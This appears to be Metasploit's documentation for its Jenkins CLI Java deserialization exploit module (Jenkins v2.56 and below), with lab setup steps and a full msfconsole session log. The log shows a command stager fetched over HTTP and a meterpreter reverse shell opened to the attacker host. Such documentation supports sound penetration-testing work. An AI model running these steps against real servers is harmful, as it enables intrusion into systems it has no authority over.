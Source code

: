 ## Vulnerable Application

  An unauthenticated Java object deserialization vulnerability exists
  in the CLI component for Jenkins versions `v2.56` and below.

  The `readFrom` method within the `Command` class in the Jenkins
  CLI remoting component deserializes objects received from clients without
  first checking / sanitizing the data. Because of this, a malicious serialized
  object contained within a serialized `SignedObject` can be sent to the Jenkins
  endpoint to achieve code execution on the target.

### Installation

  Vulnerable versions of Jenkins can be downloaded from [here](https://get.jenkins.io/war-stable/).
  Additionally, a [jdk](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html) will need to be installed on the target system.

  To start Jenkins, navigate to the location of the downloaded `war` file and execute:
  `java -jar <jenkins-file>.war`. To test if Jenkins is properly working, the CLI component
  can be accessed by navigating to `http://localhost:8080/cli`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `exploit/linux/http/jenkins_cli_deserialization`
  4. Do: `set RHOST <ip>`
  5. Do: `run`
  6. You should get a shell.

## Options

  No options

## Scenarios
### Jenkins `v2.32.1` on Ubuntu Linux 18.04.1`

```
msf6 > use exploit/linux/http/jenkins_cli_deserialization
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/jenkins_cli_deserialization) > set rhost 192.168.37.149
rhost => 192.168.37.149
msf6 exploit(linux/http/jenkins_cli_deserialization) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(linux/http/jenkins_cli_deserialization) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Jenkins version 2.32.1 detected
[*] Sending payload...
[*] Using URL: http://0.0.0.0:8080/JMpXWoK
[*] Local IP: http://192.168.1.141:8080/JMpXWoK
[*] Client 192.168.37.149 (curl/7.58.0) requested /JMpXWoK
[*] Sending payload to 192.168.37.149 (curl/7.58.0)
[*] Command Stager progress -  50.46% done (55/109 bytes)
[*] Command Stager progress -  70.64% done (77/109 bytes)
[*] Command Stager progress -  82.57% done (90/109 bytes)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Sending stage (976712 bytes) to 192.168.37.149
[*] Meterpreter session 7 opened (192.168.37.1:4444 -> 192.168.37.149:44748) at 2020-09-10 18:01:34 -0500
[*] Server stopped.

meterpreter > getuid
Server username: space @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.37.149
OS           : Ubuntu 18.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

